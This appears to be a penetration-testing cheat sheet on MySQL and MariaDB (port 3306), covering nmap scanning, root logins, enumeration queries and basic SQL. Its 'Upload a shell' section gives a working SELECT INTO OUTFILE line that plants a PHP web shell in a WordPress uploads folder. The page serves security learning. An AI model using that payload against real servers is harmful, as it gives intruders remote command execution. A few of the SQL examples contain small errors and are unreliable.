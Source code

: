 ```yaml
---
title: "3306 mariadb mysql"
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - mariadb
  - port 3306
  - mysql
---
```


# 3306 mariaDB - mySQL

## Description

**MySQL**: MySQL is an open-source relational database management system(RDBMS) based on Structured Query Language (SQL). It is developed and managed by oracle corporation and initially released on 23 may, 1995. It is widely being used in many small and large scale industrial applications and capable of handling a large volume of data. After the acquisition of MySQL by Oracle, some issues happened with the usage of the database and hence MariaDB was developed.

**MariaDB**: MariaDB is an open source relational database management system (RDBMS) that is a compatible drop-in replacement for the widely used MySQL database technology. It is developed by MariaDB Foundation and initially released on 29 October 2009. MariaDB has a significantly high number of new features, which makes it better in terms of performance and user-orientation than MySQL.


```shell-session
sudo nmap <IP> -sV -sC -p3306 --script mysql*
```




## Connect to database: mariadb

```bash
# -h host/ip   
# -u user As default mariadb has a root user with no authentication
mariadb -h <host/IP> -u root
```


## Connect to database: mysql 

```bash
# -h host/ip   
# -u user As default mysql has a root user with no authentication
mysql --host=INSTANCE_IP --user=root --password=thepassword
mysql -h <host/IP> -u root -p<password>

mysql -u root -h <host/IP>

```

## mariadb commands

```bash
# Get all databases
show databases;

# Select a database
use <databaseName>;

# Get all tables from the previously selected database
show tables; 

# Dump columns from a table
describe <table_name>;

# Dump columns from a table
show columns from <table>;

# Select column from table
select usename,password from users;
```

## Upload a shell 

Take a wordpress installation that uses a mysql database. If you manage to login into the mysql panel (/phpmyadmin) as root then you could upload a php shell to the /wp-content/uploads/ folder.

```mysql
Select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";
```

## mysql basic commands

See [mysql](mysql.md).


```mysql
# Show datases
SHOW databases;

# Show tables
SHOW tables;

# Create new database
CREATE DATABASE nameofdatabase;

# Delete database
DROP DATABASE nameofdatabase;

# Select a database
USE nameofdatabase;

# Show tablesç
SHOW tables;

# Dump content from nameOftable
SELECT * FROM NameOfTable

# Create a table with some columns in the previously selected database
CREATE TABLE person(nombre VARCHAR(255), edad INT, id INT);

# Modify, add, or remove a column attribute of a table
ALTER TABLE persona MODIFY edad VARCHAR(200);
ALTER TABLE persona ADD description VARCHAR(200);
ALTER TABLE persona DROP edad VARCHAR(200);

# Insert a new row with values in a table
INSERT INTO persona VALUES("alvaro", 54, 1);

# Show all rows from table
SELECT * FROM persona

# Select a row from a table filtering by the value of a given column
SELECT * FROM persona WHERE nombre="alvaro";

# JOIN query
SELECT * FROM oficina JOIN persona ON persona.id=oficina.user_id;

# UNION query. This means, for an attack, that the number of columns has to be the same
SELECT * FROM oficina UNION SELECT * from persona;
```


### Enumeration queries 

```mysql
# Show current user
current_user()
user()

# Show current database
database()
```
